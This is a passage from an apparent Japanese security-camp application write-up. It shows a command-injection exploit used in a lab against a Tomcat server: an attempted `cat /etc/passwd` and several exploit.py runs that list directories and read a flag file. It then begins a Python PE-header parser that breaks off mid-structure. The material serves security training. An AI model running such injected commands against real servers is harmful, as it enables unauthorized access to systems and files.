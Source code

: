 `cat /etc/passwd` は失敗しましたが、エラーメッセージから OS が Windows であることが推測できます。攻撃者は、例えば以下のようにしてカレントディレクトリを取得したり、ファイルやフォルダの一覧を取得したりするでしょう。

```
C:\Users\st\Documents\seccamp2017\A-1\q1\win>python2 exploit.py "cd"
C:\Program Files\Apache Software Foundation\Tomcat 8.5


C:\Users\st\Documents\seccamp2017\A-1\q1\win>python2 exploit.py "dir"
 ドライブ C のボリューム ラベルは XXXX です
 ボリューム シリアル番号は XXXX-XXXX です

 C:\Program Files\Apache Software Foundation\Tomcat 8.5 のディレクトリ

2017/05/17  03:45    <DIR>          .
2017/05/17  03:45    <DIR>          ..
2017/05/17  03:44    <DIR>          bin
(省略)
               4 個のファイル             XXX,XXX バイト
               9 個のディレクトリ  XX,XXX,XXX,XXX バイトの空き領域

C:\Users\st\Documents\seccamp2017\A-1\q1\win>python2 exploit.py "type C:\\Users\\st\\Documents\\seccamp2017\\A-1\\q1\\win\\flag.txt"
重要な情報
```

### 選-A-6.

> PE（Portable Executable）ファイルフォーマットの構造を調べ、添付の.NETアプリケーションから文字列を取得する機能を実装してください。具体的には、ファイルの先頭からヘッダを順次参照することで.NETアプリケーションの文字列（String）型リソースを取得するプログラムを作成してください。その際、以下の制限、規則に従ってください。 
> - この.NETアプリケーションのみでなく、汎用的に文字列型を取得できるようなプログラム構造にしてください。 
> - PEファイルを解析するような他者のコードは利用せず、自分で調べたPEファイルフォーマットの構造に従い、一からパースするプログラムを作ってください。 
> - 参考にしたサイトや調べて分かったこと、作成したプログラムの工夫点などはできる限り詳細に記述してください。

完成したプログラムは以下のとおりです。

```python
import io
import json
import struct
from ctypes import *

BYTE = c_ubyte
WORD = c_uint16
LONG = c_int32
DWORD = c_uint32

class IMAGE_DOS_HEADER(Structure):
  _fields_ = [
    ('e_magic', WORD),
    ('e_cblp', WORD),
    ('e_cp', WORD),
    ('e_crlc', WORD),
    ('e_cparhdr', WORD),
    ('e_minalloc', WORD),
    ('e_maxalloc', WORD),
    ('e_ss', WORD),
    ('e_sp', WORD),
    ('e_csum', WORD),
    ('e_ip', WORD),
    ('e_cs', WORD),
    ('e_lfarlc', WORD),
    ('e_ovno', WORD),
    ('e_res', WORD * 4),
    ('e_oemid', WORD),
    ('e_oeminfo', WORD),
```